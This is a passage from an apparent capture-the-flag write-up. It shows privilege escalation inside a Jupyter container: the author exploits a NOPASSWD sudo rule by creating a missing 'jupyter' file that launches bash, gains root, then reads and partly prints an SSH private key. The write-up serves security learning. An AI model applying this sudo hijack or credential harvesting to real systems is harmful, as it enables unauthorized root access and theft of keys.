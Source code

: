 We got a shell on linux?! But the machine is windows, this must be a container of some sort.

## **Privilege Escalation**

Let's check our privileges.

```terminal
(base) dev-datasci@DEV-DATASCI-JUP:/$ sudo -l                                                                                                                                                 
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:                                                                                                                                 
    env_reset, mail_badpass,                                                                                                                                                                  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                  
                                                                                                                                                                                              
User dev-datasci may run the following commands on DEV-DATASCI-JUP:                                                                                                                           
    (ALL : ALL) ALL                                                                                                                                                                           
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci                                                                                                                 
        -c *                        
```

We can run `/home/dev-datasci/.local/bin/jupyter` as root.

I check the file but it doesn't exist so I created a one that runs /bin/bash

```terminal
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ echo '/bin/bash' > jupyter                                                                                                                   
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ chmod +x jupyter                                                                                                                             
in/jupyter                                                                                                                                                                                    
root@DEV-DATASCI-JUP:/home/dev-datasci/.local/bin# id                                                                                                                                         
uid=0(root) gid=0(root) groups=0(root) 
```

We got root, but it's not the end.

I wasn't able to find any flags, let's do some more enumeration.

On `/home/dev-datasci/` directory we find a ssh private key.

```terminal
(base) dev-datasci@DEV-DATASCI-JUP:~$ cat dev-datasci-lowpriv_id_ed25519                                                                                                                      
-----BEGIN OPENSSH PRIVATE KEY-----                                                                                                                                                           
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+YwAAAKjQ358n0N+f
JwAAAAtzc2gtZWQyNTUxOQAAACBUoe5ZSezzC65UZhWt4dbvxKor+dNggEhudzK+JSs+Yw
[...]
-----END OPENSSH PRIVATE KEY-----
(base) dev-datasci@DEV-DATASCI-JUP:~$
```
